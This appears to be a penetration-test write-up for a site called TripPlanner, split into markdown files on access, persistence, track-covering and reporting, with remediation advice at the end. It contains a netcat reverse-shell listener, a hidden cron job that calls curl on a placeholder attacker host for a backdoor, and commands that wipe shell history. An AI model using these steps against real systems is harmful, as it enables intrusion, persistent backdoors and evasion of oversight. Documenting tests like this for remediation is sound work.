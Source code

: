 # Gaining Access

- `/admin-dev/` panel used default credentials: `admin:admin`
- Upload feature lacked validation — accepted `.php` with `.jpg` extension
- Reverse shell uploaded and executed

```bash
nc -lvnp 4444


Gained shell as www-data


---

### 📄 `persistence-strategy.md`

```markdown
# Maintaining Access

- Placed a PHP reverse shell in an unused media folder (`/assets/uploads`)
- Added a hidden cron job to ping back every 10 minutes:
```bash
*/10 * * * * curl http://attacker-ip/backdoor.php


Maintained access even after admin logout and server restart

---

### 📄 `cleanup.md`

```markdown
# Covering Tracks (Red Team Simulation)

- Cleared `.bash_history`:
```bash
cat /dev/null > ~/.bash_history


Deleted uploaded reverse shell after session closed

Modified access logs to remove attacker IP:


---

### 📄 `report-structure.md`

```markdown
# Pen Test Summary Report – TripPlanner

## Methodology: 5-Phase Model

| Phase | Action Taken | Risk Level |
|-------|---------------|-------------|
| Recon | Found exposed Git config & dev subdomain | Medium |
| Scanning | Found dev panel & backup file | High |
| Gaining Access | Exploited default admin credentials | Critical |
| Maintaining Access | Uploaded persistent shell | Critical |
| Covering Tracks | Simulated OPSEC – log deletion | High |

---

## Recommendations

- Block access to `.git/`, `/backup.zip`, and dev subdomains
- Enforce strong credential policies
- Limit upload file types and sanitize inputs
- Monitor cron activity and unusual outbound traffic

---

**Status:** Full remediation in progress


